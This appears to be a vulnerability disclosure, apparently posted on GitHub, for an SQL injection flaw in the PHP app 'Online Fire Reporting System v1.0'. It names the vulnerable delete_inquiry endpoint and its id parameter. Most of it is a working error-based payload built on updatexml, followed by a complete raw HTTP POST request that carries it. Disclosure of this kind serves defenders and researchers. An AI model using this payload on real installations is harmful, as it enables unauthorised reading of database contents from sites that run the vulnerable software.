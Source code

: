 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/classes/Master.php?f=delete_inquiry

Vulnerability location: /ofrs/classes/Master.php?f=delete_inquiry, id

[+] Payload: id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /ofrs/classes/Master.php?f=delete_inquiry HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170816941-fbc2c25f-ce5c-4964-92bd-3117af6ea15f.png)
